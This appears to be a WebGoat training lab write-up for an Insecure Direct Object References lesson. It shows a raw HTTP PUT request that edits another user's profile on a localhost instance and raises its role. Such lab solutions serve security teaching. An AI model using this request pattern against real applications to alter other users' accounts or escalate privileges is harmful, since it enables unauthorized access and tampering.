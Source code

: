 # (A5) Insecure Direct Object References

## Lesson 5
Edit another profile:
```
PUT http://localhost:8080/WebGoat/IDOR/profile/2342388 HTTP/1.1
Host: vernjan:8080
Content-Type: application/json
Content-Length: 77
Cookie: JSESSIONID=DTDJnkBwts-f_6uXV8AJ0iTSvX8zolnBkQR0xLuF

{"role":1, "color":"red", "size":"small", "name":"Tom Cat", "userId":2342388}
```
